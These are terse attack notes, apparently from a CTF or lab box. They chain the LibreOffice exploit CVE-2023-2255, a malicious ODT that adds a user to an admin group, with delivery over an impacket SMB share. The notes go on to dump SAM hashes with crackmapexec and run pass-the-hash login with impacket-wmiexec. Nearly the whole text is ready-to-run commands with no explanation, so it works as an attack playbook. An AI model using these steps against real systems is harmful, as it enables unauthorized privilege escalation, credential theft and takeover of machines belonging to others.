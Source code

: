 

##
#
https://github.com/elweth-sec/CVE-2023-2255
#
##

git clone https://github.com/elweth-sec/CVE-2023-2255

python3 CVE-2023-2255.py --cmd 'net localgroup ADMINS person /add' --output 'DEATH.odt'

> Start SMB Server
impacket-smbserver target `pass` -smb2support

> copy file to C:\DROPBOX LOL\
net use \\<ip>\target
copy \\<ip>\target\DEATH.odt

> wait for the user to be added to "ADMINS"
net user person

>dump sam hash
crackmapexec smb <box-ip> -u person -p "pass' --sam

> auth with HASHES for a given ADMIN (active)

impacket-wmiexec localadmin@<box-ip> -hashes "<hashes>"


GUCCI

##
##
